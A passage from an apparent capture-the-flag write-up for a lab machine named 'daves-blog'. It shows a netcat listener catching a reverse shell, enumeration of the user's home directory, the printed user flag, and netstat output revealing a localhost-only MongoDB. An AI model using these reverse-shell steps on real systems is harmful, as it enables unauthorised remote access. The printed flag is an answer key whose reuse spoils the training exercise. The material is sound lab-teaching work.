 A reverse shell is now spawned to our listener window:

~~~
kali@kali:/data/vpn$ rlwrap nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.8.50.72] from (UNKNOWN) [10.10.139.182] 47686
bash: cannot set terminal process group (814): Inappropriate ioctl for device
bash: no job control in this shell
dave@daves-blog:~/blog$ cd /home
cd /home
dave@daves-blog:/home$ ls -la
ls -la
total 12
drwxr-xr-x  3 root root 4096 May 21 20:27 .
drwxr-xr-x 24 root root 4096 May 21 20:28 ..
drwxr-xr-x  5 dave dave 4096 May 22 13:32 dave
dave@daves-blog:/home$ cd dave
cd dave
dave@daves-blog:~$ ls -la
ls -la
total 44
drwxr-xr-x  5 dave dave 4096 May 22 13:32 .
drwxr-xr-x  3 root root 4096 May 21 20:27 ..
lrwxrwxrwx  1 dave dave    9 May 21 20:29 .bash_history -> /dev/null
-rw-r--r--  1 dave dave  220 May 21 20:27 .bash_logout
-rw-r--r--  1 dave dave 3771 May 21 20:27 .bashrc
drwxr-xr-x  9 dave dave 4096 Sep 23 05:46 blog
drwxrwxr-x  3 dave dave 4096 May 21 20:38 .local
drwxrwxr-x 94 dave dave 4096 May 21 20:34 .npm
-rw-r--r--  1 dave dave  807 May 21 20:27 .profile
-rw-rw-r--  1 dave dave   66 May 21 20:38 .selected_editor
-rwxr-xr-x  1 root root  137 May 22 13:32 startup.sh
-rw-rw-r--  1 dave dave   38 May 21 20:45 user.txt
dave@daves-blog:~$ cat user.txt
cat user.txt
THM{5fa1f779d1835367fdcfa4741bebb88a}
~~~

# Flag 3

*Hint: mongo deeper*

MngoDB is running on port 27017 for localhost only:

~~~
dave@daves-blog:~$ netstat -putan
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:27017         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:53682         127.0.0.1:27017         ESTABLISHED 1050/node           
tcp        0      0 127.0.0.1:27017         127.0.0.1:53688         ESTABLISHED -                   
tcp        0      0 127.0.0.1:27017         127.0.0.1:53682         ESTABLISHED -                   
~~~